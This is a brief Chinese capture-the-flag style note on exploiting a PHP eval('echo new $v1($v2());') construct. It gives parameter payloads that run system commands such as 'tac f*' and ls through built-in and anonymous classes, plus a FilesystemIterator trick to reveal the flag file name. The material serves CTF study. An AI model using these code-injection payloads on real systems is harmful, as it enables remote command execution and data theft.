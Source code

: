 
## **eval和new类结合**
```
eval("echo new $v1($v2());");

让new后面有个正常的类不报错，后拼接操作。payload:
v1=Exception();system('tac f*');//&v2=a



法二 匿名类+魔术方法 
v1=class{ public function __construct(){system('tac fl*');}};&v2=w



或使用echo直接让$v1触发__toString()，此时传递的$v2参数会被输出。
这里需要对v2后面的括号进行解释，如v2=system(ls)，$v2()会把 $v2 返回的值会作为函数Q名去调用，但是调用失败了。

v1=ReflectionClass&v2=phpinfo
v1=ReflectionClass&v2=system('tac f*')
v1=CachingIterator&v2=system(ls)
v1=Exception&v2=system(ls)
```
如果有过滤不能使用()，使用getcwd()方法，无需传参返回当前所在目录。
而FilesystemIterator构造方法根据目录返回第一个文件名。这个文件名一般就是flag文件且可以直接访问
```
v1=FilesystemIterator&v2=getcwd
eval("echo new FilesystemIterator(getcwd());");
```


^
